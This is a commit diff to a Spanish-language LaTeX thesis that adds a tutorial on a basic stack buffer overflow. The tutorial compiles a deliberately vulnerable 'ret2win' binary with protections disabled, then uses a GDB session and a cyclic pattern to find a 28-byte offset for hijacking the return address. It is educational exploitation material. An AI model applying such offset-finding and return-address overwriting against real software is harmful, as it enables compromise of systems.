

Before and after one commit to xtylez-eskardinha/pwngenerator, a LaTeX thesis (docs/TFG/main.tex, which reads docs/TFG/3-desarrollo.tex, docs/TFG/glosario.tex): part of page 15 of 20 before the commit and two parts of pages 16 and 17 of 23 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
add: Tutorial de bof básico

```diff
--- a/docs/TFG/3-desarrollo.tex
+++ b/docs/TFG/3-desarrollo.tex
@@ -318,5 +318,25 @@ Es probable que compilando el código tal y como está el compilador nos arroje
 Estas mitigaciones se explican en el punto \ref{subsec:mitigaciones}.
 Para probar el la explotación antes descrita necesitamos compilar el binario con el siguiente comando:
 \begin{lstlisting}[language=bash, caption=Compilado de código con pocas mitigaciones y arquitectura 32bit]
-gcc -m32 -no-pie -fno-stack-protector -o ret2win.o ret2win.c
+$ gcc -m32 -no-pie -fno-stack-protector -o ret2win.o ret2win.c
 \end{lstlisting}
+Una vez compilado, para probar la explotación del binario, lo ejecutaremos con el programa \acrfull{gdb}.
+Para la explotación se puede usar el siguiente tutorial como referencia:
+\begin{lstlisting}[language=bash, caption=Explotación de GDB con binario ret2win]
+# Se carga el binario en gdb
+$ gdb ret2win.o
+# Se establece el breakpoint en la funcion main
+(gdb) b main
+Breakpoint 1 at 0x8049209
+# Se establece el breakpoint en la funcion "funcion_vulnerable"
+(gdb) b funcion_vulnerable
+Breakpoint 2 at 0x80491c5
+# Se establece el breakpoint en la funcion "ret2win"
+(gdb) b ret2win
+Breakpoint 3 at 0x80491ac
+# Procedemos a ejecutar el programa y alcanzamos la funcion main
+(gdb) start
+Breakpoint 1, 0x08049209 in main ()
+# Podemos ver los stack frames usando backtrace
+(gdb) backtrace
+0  0x08049209 in main ()
@@ -322,0 +349,37 @@ gcc -m32 -no-pie -fno-stack-protector -o ret2win.o ret2win.c
+1  0x08049221 in main ()
+# Continuamos instruccion por instruccion hasta que nos pida un input usando next
+(gdb) next instruction
+.
+.
+.
+(gdb) next instruction
+Dime algo: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
+# Introducimos un texto largo, de 48 As por ejemplo
+0x080491e1 in funcion_vulnerable ()
+(gdb) backtrace
+0  0x080491e1 in funcion_vulnerable ()
+1  0x41414141 in ?? ()
+2  0x41414141 in ?? ()
+3  0x41414141 in ?? ()
+4  0x41414141 in ?? ()
+5  0x41414141 in ?? ()
+6  0x00000000 in ?? ()
+# Como se puede observar, se ha sustituido el EIP cambiando el punto de retorno de la funcion.
+# Para obtener el exacto con precision, se puede hacer uso de herramientas automaticas, existe una online en la siguiente URL: https://wiremask.eu/tools/buffer-overflow-pattern-generator/
+# Se genera un string de 48 bytes de longitud usando la herramienta (Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5)
+# Se reinicia el programa usando run y aceptando
+(gdb) run
+# Se repiten los pasos anteriores, sin embargo, se cambian las As introducidas por el texto generado en la herramienta
+(gdb) next instruction
+Dime algo: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5
+# Revisamos el backtrace para ver el EIP
+(gdb) backtrace
+0  0x080491e1 in funcion_vulnerable ()
+1  0x62413961 in ?? ()
+2  0x31624130 in ?? ()
+3  0x41326241 in ?? ()
+4  0x62413362 in ?? ()
+5  0x35624134 in ?? ()
+6  0x00000000 in ?? ()
+# Se toma la funcion de retorno del punto 1 (0x62413961) y se introduce en la herramienta usada, obteniendo un offset de 28 bytes
+# Como conclusion, se debe entregar al programa 28 caracteres seguido de la funcion donde se quiera que retorne (ret2win)
--- a/docs/TFG/glosario.tex
+++ b/docs/TFG/glosario.tex
@@ -20,3 +20,4 @@
 \newacronym{esp}{ESP}{Extended Stack Pointer}
 \newacronym{ebp}{EBP}{Extended Base Pointer}
 \newacronym{eip}{EIP}{Extended Instruction Pointer}
+\newacronym{gdb}{GDB}{GNU Debugger}
```
Also changed, not shown: docs/TFG/3-desarrollo.tex (34 more changed lines).
